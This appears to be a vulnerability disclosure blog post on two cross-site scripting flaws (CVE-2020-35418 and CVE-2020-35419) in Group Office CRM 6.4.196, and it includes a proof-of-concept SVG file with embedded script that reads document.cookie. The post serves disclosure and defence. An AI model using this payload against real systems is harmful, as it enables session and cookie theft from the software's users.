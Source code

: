 ```yaml
---
title: Group Office CRM | Stored XSS via SVG File
author: Fatih Çelik
date: 2020-12-10 11:33:00 +0800
categories: [Vulnerability Research]
tags: [vulnerability research]
math: true
mermaid: true
---
```


**Software**: https://sourceforge.net/projects/group-office/

**Version**: 6.4.196

**Vulnerability**: Cross Site Scripting

**CVE**: CVE-2020-35418 && CVE-2020-35419

**Description of the product:**

> Group Office is an open source groupware application. It makes your daily office tasks easier. Share projects, calendars, files and e-mail online. It is a complete solution for all your online office needs. From a customer phone call to a project and finally an invoice. The support system helps to keep your customers happy. Group Office is fast, secure and has privacy by design. You can stay in full control of your data by self hosting your cloud and e-mail. Our document editing solution keeps all data on the secured server instead of synchronising it to all user devices. GroupOffice is open source and modular. Which means it’s easy to customise and extend. You can turn off and on features and it enables any developer to create new modules for the platform.

## Description of the vulnerability

There are 2 XSS vulnerability on the web application. One of them is reflected XSS and the other one is stored XSS. The "SET_LANGUAGE" parameter is affected by reflected XSS vulnerability. In addition to that, in contact page, users can upload svg files via file upload functionality. Attacker can inject JS code into the svg file and due to the insecure handling of crafted svg file, attacker can perform XSS attack.

## Exploit

Content of the poc.svg file,

```xml
<?xml version="1.0" standalone="no"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">
 <svg version="1.1" baseProfile="full" xmlns="http://www.w3.org/2000/svg">
<polygon id="triangle" points="0,0 0,50 50,0" fill="#009900" stroke="#004400"/>
<script type="text/javascript">
alert(document.cookie);
</script>
</svg>
```

![](/photos/poc-1.png)

![](/photos/poc-2.png)
